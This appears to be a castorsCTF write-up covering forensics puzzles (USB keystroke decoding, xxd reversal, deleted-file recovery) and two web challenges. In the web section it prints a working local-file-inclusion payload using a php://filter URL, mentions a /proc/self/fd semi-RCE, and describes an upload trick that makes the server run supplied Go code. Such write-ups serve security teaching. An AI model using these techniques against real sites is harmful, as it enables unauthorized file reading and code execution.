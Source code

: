 ## Leftovers
This is HID data, but with a slight twist where multiple keys are being sent in the same packet. First we extract all the HID data packets.

`tshark -r interrupts.pcapng -T fields -e usb.capdata > usbdata.txt`

Some manual cleanup is required afterwards; namely deleting blank lines and deleting metadata PDUs (which have a different length).

After this, you just run your run-of-the-mill HID parser, just to see that it doesn't support Caps Lock, and assumes only one key is arriving at any point. Adding caps-lock support, I'm left with

`what dooyoo  thhnng yyuu will ffnnn herr? thhss? csstossCTF{1stiswhatyoowant}`

and these letters that are pressed, but couldn't be merged with the earlier output: `uuuiiioooiiiddeeiiiaarruu`. Through manual comparison of the provided strings, and filtering out some double letters, it's clear that the flag must be `castorsCTF{1stiswhatyouwant}`.

## Manipulation
The challenge has a .jpg file, but the contents are actually output from `xxd`. The first line is also moved to the bottom. We can undo this by moving the last line to the top, using a text editor, then running `xxd -r` on the file. This produces a valid JPG file with two flags on it. The last flag was the correct one.

## Father Taurus Kernel Import!
Loaded dump into Autopsy, let it scan. Found a deleted file `Secrets/_lag.txt` (originally flag.txt?) with contents
`Y2FzdG9yc0NURntmMHIzbnMxY1NfbHNfSVRzXzBXbl9iMFNTfQ==`, which after base64 decoding becomes `castorsCTF{f0r3ns1cS_ls_ITs_0Wn_b0SS}`.

# General

# Web

## Bane Art
This challenge has a very obvious LFI vulnerability, and php wrappers are enabled. After some probing around, reading files with
`http://web1.cybercastors.com:14438/app.php?topic=php://filter/convert.base64-encode/resource=<FILENAME>`
and abusing `/proc/self/fd/7` as a semi-RCE, we find the flag located at
`/home/falg/flag/test/why/the/hassle/right/flag.txt`.

Final payload is then `http://web1.cybercastors.com:14438/app.php?topic=php://filter/convert.base64-encode/resource=/home/falg/flag/test/why/the/hassle/right/flag.txt`

`castorsCTF{w3lc0m3_2_D4_s0urc3_YoUng_Ju4n}`

## Shortcuts
Saw you could upload your own shortcuts, however if you uploaded `<filename>` and clicked it, the webapp tried to `go run <filename>.go`. 
I circumvented this by just uploading `<filename>` and `<filename>.go` to the shortcuts app with the same content, then clicking the `<filename>` link.
